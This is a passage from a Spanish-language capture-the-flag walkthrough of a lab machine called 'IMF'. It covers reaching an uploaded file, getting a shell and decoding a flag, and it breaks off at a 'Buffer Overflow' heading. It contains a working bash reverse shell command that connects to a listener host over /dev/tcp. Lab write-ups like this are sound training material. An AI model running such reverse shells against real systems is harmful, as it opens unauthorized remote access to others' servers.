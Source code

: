 En el código fuente, se proporciona información sobre la ubicación del archivo que hemos subido:

![](/assets/images/IMF/Pasted-image-20240605135717.png)

Si ahora navegamos a la URL y añadimos ‘uploads’ seguido de la cadena y la extensión, podremos acceder a nuestro archivo:

![](/assets/images/IMF/Pasted-image-20240605140724.png)

Ahora, iniciamos una escucha en nuestro sistema y ejecutamos una shell con el siguiente comando: bash -c "bash -i >%26 /dev/tcp/192.168.3.5/443 0>%261". Esto nos proporcionará acceso al servidor:

![](/assets/images/IMF/Pasted-image-20240605140747.png)

## Buffer Overflow

Si listamos los archivos en el directorio actual, encontraremos la quinta bandera:

```
'YWdlbnRzZXJ2aWNlcw==' -> agentservices
```

Vamos a buscar el término ‘agent’ para ver qué encontramos.

```
find / -name agent 2>/dev/null
	/usr/local/bin/agent
	/etc/xinetd.d/agent
```
